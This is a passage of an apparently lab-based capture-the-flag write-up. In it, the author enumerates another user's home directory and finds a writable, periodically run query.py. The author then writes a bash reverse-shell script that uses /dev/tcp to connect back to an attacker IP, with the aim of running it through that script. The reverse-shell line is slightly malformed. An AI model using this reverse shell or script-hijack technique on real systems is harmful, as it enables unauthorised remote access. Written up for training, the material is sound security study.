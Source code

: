 ```

Last login: Fri Mar  1 16:00:05 2024
daniel@napping:~$ 
```
- after checking the home directory I found a folder named adrian so a quick check up
```
daniel@napping:/home/adrian$ ls -al
total 40
drwxr-xr-x 3 adrian adrian          4096 Feb 23 08:16 .
drwxr-xr-x 4 root   root            4096 Oct 12  2021 ..
lrwxrwxrwx 1 adrian adrian             9 Oct 12  2021 .bash_history -> /dev/null
-rw-r--r-- 1 adrian adrian             0 Feb 25  2020 .bash_logout
-rw-r--r-- 1 adrian adrian             0 Feb 25  2020 .bashrc
drwx------ 2 adrian adrian          4096 Oct 11  2021 .cache
lrwxrwxrwx 1 adrian adrian             9 Oct 12  2021 .mysql_history -> /dev/null
-rw-r--r-- 1 adrian adrian             0 Feb 25  2020 .profile
-rw-rw-r-- 1 adrian adrian            75 Oct 11  2021 .selected_editor
-rw-r--r-- 1 adrian adrian             0 Oct 11  2021 .sudo_as_admin_successful
-rw------- 1 adrian adrian             0 Oct 30  2021 .viminfo
-rw-rw-r-- 1 adrian administrators   540 Mar  1 16:05 query.py
-rw-rw-r-- 1 adrian adrian         15200 Mar 20 07:00 site_status.txt
-rw------- 1 adrian adrian            22 Oct 12  2021 user.txt
```
- `query.py` is an interesting finding as it appears that we can access it and even modify it

```daniel@napping:/home/adrian$ cat query.py 
from datetime import datetime
import requests

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```
## Reverse connection
- Now that we know that this file is executed with adrian priviledge we will attempt a reverse shell
- we will create a bash script in the shared memory named reverse.sh `daniel@napping:/dev/shm$ touch reverse.sh` and `chmod +x reverse.sh` to ensure that it can be executed
- open vim and paste the following script
``` bash
#!/bin/bash
# Replace "ATTACKER_IP" and "YOUR_PORT" with your attacker's IP address and port
ATTACKER_IP="10.0.2.8"
ATTACKER_PORT="1234"

# Connect back to the attacker's machine
/bin/bash -i "/bin/bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1"
```
- Now we wil call the connection in the `query.py` file and set up a listener in our machine
```
```
